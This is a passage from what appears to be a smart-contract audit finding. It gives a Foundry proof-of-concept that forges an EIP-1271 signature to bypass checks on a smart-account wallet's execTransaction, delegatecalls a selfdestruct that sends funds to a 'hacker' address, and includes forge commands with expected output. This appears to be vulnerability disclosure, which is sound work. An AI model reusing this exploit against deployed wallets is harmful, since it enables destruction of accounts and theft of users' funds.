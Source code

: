             // Impersonate hacker
            vm.startPrank(hacker);
            // Create the calldata to call the selfDestruct function of SelfDestructingContract and send funds to hacker 
            bytes memory data = abi.encodeWithSelector(sdc.selfDestruct.selector, hacker);
            // Create transaction specifing SelfDestructingContract as target and as a delegate call
            Transaction memory transaction = Transaction(address(sdc), 0, data, Enum.Operation.DelegateCall, 1000000);
            // Create FeeRefund
            FeeRefund memory fr = FeeRefund(100, 100, 100, hacker, payable(hacker));

            bytes32 fakeSignerPadded = bytes32(uint256(uint160(address(fs))));
            // Add fake signature (r,s,v) to pass all requirments.
            // v=0 to indicate eip-1271 signer "fakeSignerPadded" which will always return true
            bytes memory signatures = abi.encodePacked(fakeSignerPadded, bytes32(uint256(65)),uint8(0), bytes32(0x0));
            // Call execTransaction with eip-1271 signer to delegatecall to selfdestruct of the proxy contract.
            proxySmartAccount.execTransaction(transaction, 0, fr, signatures);
            vm.stopPrank();
        }

        function testProxyDoesNotExist() public {
            uint size;
            // Validate that bytecode size of the proxy contract is 0 becuase of self destruct 
            address proxy = address(proxySmartAccount);
            assembly {
              size := extcodesize(proxy)
            }
            assertEq(size,0);
        }

        function testRevertWhenCallingWalletThroughProxy() public {
            // Revert when trying to call a function in the proxy 
            proxySmartAccount.getNonce(0);
        }
    }

To run the POC and validate that the proxy does not exist after destruction:

    forge test -m testProxyDoesNotExist -v --fork-url="<GOERLI FORK RPC>"

Expected output:

    Running 1 test for test/DestroyWalletAndStealFunds.t.sol:DestroyWalletAndStealFunds
    [PASS] testProxyDoesNotExist() (gas: 4976)
    Test result: ok. 1 passed; 0 failed; finished in 4.51s

To run the POC and validate that the EOA cannot interact with the wallet after destruction:

    forge test -m testRevertWhenCallingWalletThroughProxy -v --fork-url="<GOERLI FORK RPC>"

Expected output:

    Failing tests:
    Encountered 1 failing test in test/DestroyWalletAndStealFunds.t.sol:DestroyWalletAndStealFunds
    [FAIL. Reason: EvmError: Revert] testRevertWhenCallingWalletThroughProxy() (gas: 5092)
